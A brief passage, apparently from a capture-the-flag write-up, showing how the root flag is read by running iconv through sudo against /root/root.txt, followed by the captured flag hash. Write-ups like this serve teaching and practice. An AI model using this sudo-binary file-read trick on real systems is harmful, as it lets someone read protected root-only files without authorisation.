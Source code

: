 
so file we wnat to read is ``/root/root.txt``

```
LFILE=/root/root.txt
sudo /usr/bin/iconv -f utf-8 -t utf-8 /root/root.txt
```

```
851b8233a8c09400ec30651bd1529bf1ed02790b
```











